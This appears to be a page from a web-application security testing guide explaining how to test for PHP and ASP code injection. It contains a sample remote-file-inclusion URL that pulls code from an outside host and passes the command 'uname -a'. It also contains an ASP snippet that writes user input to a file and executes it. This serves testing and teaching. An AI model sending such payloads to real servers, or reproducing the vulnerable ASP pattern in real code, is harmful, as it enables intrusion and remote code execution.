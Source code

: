 Summary
-------

This section describes how a tester can check if it is possible to enter code as input on a web page and have it executed by the web server.

In [Code Injection](Code_Injection "wikilink") testing, a tester submits input that is processed by the web server as dynamic code or as an included file. These tests can target various server-side scripting engines, e.g.., ASP or PHP. Proper input validation and secure coding practices need to be employed to protect against these attacks.

How to Test
-----------

### Black Box testing

#### Testing for PHP Injection vulnerabilities

Using the querystring, the tester can inject code (in this example, a malicious URL) to be processed as part of the included file:

`http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a`

**Result Expected:**

The malicious URL is accepted as a parameter for the PHP page, which will later use the value in an included file.

### Gray Box testing

#### Testing for ASP Code Injection vulnerabilities

Examine ASP code for user input used in execution functions. Can the user enter commands into the Data input field? Here, the ASP code will save the input to a file and then execute it:

`<%`\
`If not isEmpty(Request( `“`Data`”` ) ) Then`\
`Dim fso, f`\
`'User input Data is written to a file named data.txt`\
`Set fso = CreateObject(`“`Scripting.FileSystemObject`”`)`\
`Set f = fso.OpenTextFile(Server.MapPath( `“`data.txt`”` ), 8, True)`\
`f.Write Request(`“`Data`”`) & vbCrLf`\
`f.close`\
`Set f = nothing`\
`Set fso = Nothing`

`'Data.txt is executed`\
`Server.Execute( `“`data.txt`”` )`

`Else`\
`%>`\

<form>
<input name="Data" /><input type="submit" name="Enter Data" />\

</form>
`<%`\
`End If`\
`%>)))`

References
----------

-   Security Focus - <http://www.securityfocus.com>

<!-- -->

-   Insecure.org - <http://www.insecure.org>

<!-- -->

-   Wikipedia - <http://www.wikipedia.org>

<!-- -->

-   Reviewing Code for [OS Injection](OS_Injection "wikilink")

\

